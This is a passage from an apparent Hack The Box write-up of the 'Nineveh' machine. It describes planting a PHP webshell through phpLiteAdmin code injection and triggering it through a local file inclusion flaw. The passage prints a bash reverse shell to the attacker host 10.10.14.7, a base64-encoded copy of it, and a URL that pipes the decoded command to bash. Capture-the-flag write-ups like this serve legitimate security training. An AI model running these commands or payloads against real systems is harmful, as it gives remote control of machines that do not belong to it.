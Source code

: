 ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Nineveh/Untitled%2018.png)

There’re only test database.

### Remote PHP Code Injection

[https://www.exploit-db.com/exploits/24044](https://www.exploit-db.com/exploits/24044)

Following the instruction:

1. Create database:
    
    ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Nineveh/Untitled%2019.png)
    
2. I’ll click on the new db to switch to it, and create a table with 1 text field with a default value of a basic PHP webshell:
    
    ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Nineveh/Untitled%2020.png)
    
    ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Nineveh/Untitled%2021.png)
    
    ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Nineveh/Untitled%2022.png)
    
3. I can see the path to the new .php webshell in `/var/tmp`:
    
    ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Nineveh/Untitled%2023.png)
    
    But it's necessary a LFI to access that page from browser.
    
    Now We has a entrypoint.
    

# Exploration

## Getting the Shell

We injected a webshell into `/var/tmp`.

Let’s use the LFI found to execute the webshell.

`http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/0xEtern4lW0lf.php&cmd=id`

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Nineveh/Untitled%2024.png)

```bash
**/bin/bash -i >& /dev/tcp/10.10.14.7/443 0>&1**
```

```bash
L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43LzQ0MyAwPiYx
```

```bash
10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/0xEtern4lW0lf.php&cmd=echo+L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjcvNDQzIDA+JjEK|base64+-d|bash

cmd=echo+"L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjcvNDQzIDA+JjE="+|+base64+-d+|+bash"
```
